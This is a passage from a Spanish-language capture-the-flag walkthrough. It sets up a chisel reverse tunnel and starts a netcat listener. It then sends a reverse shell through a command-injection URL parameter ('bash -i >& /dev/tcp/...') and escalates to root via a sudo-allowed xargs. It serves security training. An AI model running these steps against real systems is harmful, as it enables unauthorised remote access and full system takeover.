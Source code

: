 ```shell
curl -o chisel.gz -L https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
chmod +x chisel
```

Máquina atacante:

```shell
./chisel server --reverse 1234
```

Máquina víctima:

```shell
./chisel client 172.17.0.1:8080 R:9999:127.0.0.1:9999
```

![Pasted image 20240506210404](https://github.com/albertomarcostic/HackTheHeaven/assets/131155486/b6298c14-4f40-4205-aa5e-ee1302a62f0e)

Ahora ya podemos acceder desde nuestro navegador local:

![Pasted image 20240506210734](https://github.com/albertomarcostic/HackTheHeaven/assets/131155486/4e159688-d36a-494a-b30a-cc74d7a0bc82)

Nos ponemos en escucha con **netcat**:

```shell
nc -nlvp 4433
```

Nos enviamos una **reverse shell** desde la URL:

```shell
http://localhost:9999/index.php?cmds4vi=bash -c "bash -i >%26 /dev/tcp/127.0.0.1/4433 0>%261"
```

Estamos dentro como el usuario **s4vitar**
Si hacemos **sudo -l** vemos que podemos ejecutar **xargs** como el usuario **root**.

```shell
sudo -l
-----------------------------
User s4vitar may run the following commands on ba39cbc27b36:
    (root) NOPASSWD: /usr/bin/xargs
```

Abusamos de este ejecutando:

```shell
sudo /usr/bin/xargs -a /dev/null bash
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en la máquina !

Si has llegado hasta aquí, mi más sincera enhorabuena y espero que te haya encantado mi primer CTF !

Nos vemos pronto !

![Pasted image 20240506211457](https://github.com/albertomarcostic/HackTheHeaven/assets/131155486/a6bbcd1c-5cee-4f2c-b57c-e4ccccfe88b8)
